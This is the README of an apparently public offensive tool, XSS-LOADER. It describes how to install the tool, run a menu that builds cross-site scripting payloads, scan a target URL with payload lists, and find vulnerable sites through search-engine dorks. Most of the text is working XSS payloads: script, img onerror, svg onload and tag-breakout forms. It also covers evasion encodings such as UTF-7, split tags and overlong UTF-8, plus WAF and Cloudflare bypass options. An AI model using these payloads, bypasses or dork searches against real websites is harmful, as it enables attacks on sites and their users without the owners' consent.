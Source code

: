 <img src="https://raw.githubusercontent.com/0xAbbarhSF/XSS-Lab/main/images%20(4).png">

- 🕊️ [@0xAbbarhSF](https://twitter.com/0xAbbarhSF) <img src="https://img.shields.io/badge/Twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white">


## 📒 Read Me 📒

* This tool creates payload for use in xss injection
* Select default payload tags from parameter or  write your payload
* It makes xss inj. with Xss Scanner parameter
* It finds vulnerable sites url with Xss Dork Finder parameter


##  :cd: Installation  :cd:
### Installation with requirements.txt

```bash
git clone https://github.com/capture0x/XSS-LOADER/
cd XSS-LOADER
pip3 install -r requirements.txt
```

## Usage

```bash
python3 payloader.py
```


## 🗃️  Features  🗃️


#### *Basic Payload

Sets default parameter to :```<script>alert(1)</script>```

#### *Div Payload

Sets default parameter to :```<div onpointerover='alert(1)'>MOVE HERE</div```

#### *Img Payload

Sets default parameter to :```<img src=x onerror=alert('1');>```

#### *Body Payload

Sets default parameter to :```<body ontouchstart=alert(1)>```

#### *Svg Payload

Sets default parameter to :```<svg onload=alert('1')>```

#### *Enter Your Payload

Encodes payload writed by user


#### *Payload Generator Parameter

Encodes payload on selected tag

#
```
* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT
```

#### *Xss Scanner

Initially you'll need to enter url of target
Please enter the url like this example==>e.g target -----> http://target.com/index.php?name=
Selected for scanning payload list

* BASIC PAYLOAD LIST   ==> Payload list consisting of script tag
* DIV PAYLOAD LIST     ==> Payload list consisting of div tag
* IMG PAYLOAD LIST     ==> Payload list consisting of img tag
* BODY PAYLOAD LIST    ==> Payload list consisting of body tag
* SVG PAYLOAD LIST     ==> Payload list consisting of svg tag
* MIXED PAYLOAD LIST   ==> Payload list consisting of all tag
* ENTER FILE PATH      ==> Payload list determined by the user ,Please enter the url like this example..!
(e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.


#### *Xss Dork Finder

First enter the dork for searching:
   e.g---->inurl:"search.php?q="
Results will be saved in "dork.txt" after scanning.

## Known Issues

### Fixed:
- Unicode errors

- Module errors

**Important:**

If you want to use tool for python3 installed on Windows download below link:

https://github.com/capture0x/XSS-LOADER-for-WINDOWS


## Bugs and enhancements

For bug reports or enhancements, please open an [issue](https://github.com/capture0x/XSS-LOADER/issues) here.



**Copyright 2020**
